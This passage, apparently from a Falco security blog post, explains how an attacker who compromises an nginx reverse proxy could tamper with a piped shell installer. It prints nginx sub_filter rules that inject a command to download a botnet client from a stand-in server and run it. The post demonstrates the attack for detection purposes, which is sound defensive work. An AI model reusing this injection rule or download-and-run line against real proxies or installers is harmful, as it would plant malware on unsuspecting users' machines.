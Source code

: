 

Let's talk about one possible attack now.



### Architecture of an attack



Let's assume the following architecture:



*   Build servers that create and sign the rpm, dpkg, etc. software packages.
*   A web server serving a legitimate copy of the pipe installer.
*   A reverse proxy that normally performs load balancing, caching, ssl termination, etc, using [nginx][1].
*   A "evil" web server owned by the attacker containing botnet client software.



It's probably very difficult for an attacker to gain access to the build servers, as those are typically well behind firewalls and have limited access, etc. An attacker might be able to gain access to the web server serving the pipe installer, but it would be fairly easy to check the contents of the web server and make sure it's the same as known good versions.



However, what happens if an attacker can gain access to the reverse proxy? The reverse proxy is thought of as stateless, simply offloading work from the web servers containing the real software, documentation, etc. That makes it an especially attractive target, as it's possible that an intrusion might not be detected for quite a while.



Assuming an attacker could gain access to the reverse proxy, let's show what they could do, using some simple nginx rewrite rules.



### How nginx modifies the installation script



Let's look at the nginx rules that modify the installation script. These were added by the attacker after they compromised the proxy:



<pre>location / {
    # ---BEGIN added by attacker
    sub_filter_types '*';
    sub_filter 'function install_deb {' 'curl -so ./botnet_client.py http://localhost:9090/botnet_client.py && python ./botnet_client.py &\nfunction install_deb {';
    # ---END added by attacker

    sub_filter_once off;
    proxy_pass http://apache:80;
 }</pre>


 [1]: http://nginx.org/en/
 [2]: https://en.wikipedia.org/wiki/Process_group
 [3]: https://github.com/draios/falco/wiki/Falco%20Rules
 [4]: https://sysdigrp2rs.wpengine.com/blog/sysdig-falco/
 [5]: http://www.sysdig.org/falco/
 [6]: https://docs.docker.com/compose/
 [7]: https://github.com/draios/falco/tree/dev/examples/mitm-sh-installer